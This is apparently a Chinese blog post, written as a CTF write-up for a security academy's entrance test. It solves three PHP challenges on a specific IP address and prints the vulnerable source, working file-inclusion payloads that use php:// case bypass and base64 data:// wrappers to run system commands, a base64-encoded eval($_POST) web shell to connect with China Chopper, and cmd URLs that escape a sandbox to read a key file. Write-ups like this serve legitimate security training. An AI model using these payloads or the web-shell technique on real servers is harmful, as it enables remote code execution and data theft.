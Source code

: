 ```yaml
---
title: ctf小测试
tags:
  - ctf
  - 安全
categories:
  - 安全
copyright: true
permalink: ctf小测试
top: 0
password: 
abstract: 输入密码继续阅读.
message: 欢迎来到我的博客，输入密码继续阅读.
date: 2020-12-08 21:09:05
---
```


搞了个谷安学院的报名测试题目
<!--more-->



![20201208142555](https://raw.githubusercontent.com/Hatcat123/GraphicBed/master/Img2/20201208142555.png)

## http://103.66.216.83:9997
变换提交方式，更改header为post 表单提交数据。

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>POST&GET</title>
    <link href="http://libs.baidu.com/bootstrap/3.0.3/css/bootstrap.min.css" rel="stylesheet" />

</head>
<body>

<h1>请以get方式提交a=1 post方式提交b=2给服务器</h1>
key1:T0kS7r3c

</body>
</html>

## http://103.66.216.83:9998/?page=/flag

<?php
show_source(__FILE__);
echo $_GET['hello'];
$page=$_GET['page'];
//while (strstr($page, "php://")) {
//    $page=str_replace("php://", "", $page);
//}
include($page);
?>
flag{38469ca0ef5b847cc4247f41ff7f9e82}
这里有多种方式执行命令
### 过滤了`php://`的方式，使用大小写绕过过滤，使用PHP://协议恶意传输数据

### data://伪协议执行命令利用
php5.2.0起，数据流封装器开始有效，主要用于数据流的读取。如果传入的数据是PHP代码，就会执行代码

使用方法:data://text/plain;base64,xxxx(base64编码后的数据)
<?php system("ls /")?> base64编码后使用PD9waHAgc3lzdGVtKCJscyAvIik/Pg==
http://103.66.216.83:9998/?page=data://text/plain/;base64,PD9waHAgc3lzdGVtKCJscyIpPz4=

### 使用data协议传木马
<?php eval($_POST[aaa]); ?>
PD9waHAgZXZhbCgkX1BPU1RbYWFhXSk7ID8+
http://103.66.216.83:9998/?page=data://text/plain/;base64,PD9waHAgZXZhbCgkX1BPU1RbYWFhXSk7ID8+
菜刀直接连接

## http://103.66.216.83:9999
```
0 <?php
    header("Content-type:text/html;charset=utf-8"); 
    /*
    Hint:
    get the shell find the key；）\n";
    */
    $sandbox = '/var/www/html/sandbox/' . md5("M0rk" . $_SERVER['REMOTE_ADDR']);
    mkdir($sandbox,0777,true);
    chdir($sandbox);
    echo strlen($_GET['cmd']);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 30) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);
echo "<br /> IP : {$_SERVER['REMOTE_ADDR']}";

IP : 223.104.105.184
```

http://103.66.216.83:9999/?cmd=cat%20../../key.php%20%3E../1

http://103.66.216.83:9999/sandbox/1
<?php
#key3:Welc0Me From GooAnn

看到这个大佬说不要去沙箱，可以跳出沙箱文件如
ls ../ >../23.txt
http://103.66.216.83:9999/?cmd=ls%20../%20%3E../23.txt
![20201208145152](https://raw.githubusercontent.com/Hatcat123/GraphicBed/master/Img2/20201208145152.png)

看到刚才创建的文件，再将沙箱文件外面的文件写入到23中
ls ../../ >../23.txt
![20201208145330](https://raw.githubusercontent.com/Hatcat123/GraphicBed/master/Img2/20201208145330.png)
看到有个key.php 讲php文件输送到23.txt中
查看文件得到key

## 参考连接

https://blog.csdn.net/a3320315/article/details/101635461
https://blog.csdn.net/weixin_43818995/article/details/104164700?utm_medium=distribute.pc_relevant.none-task-blog-BlogCommendFromBaidu-2.control&depth_1-utm_source=distribute.pc_relevant.none-task-blog-BlogCommendFromBaidu-2.control

https://www.jianshu.com/p/955bae08f5e1
https://www.o2oxy.cn/1403.html?replytocom=315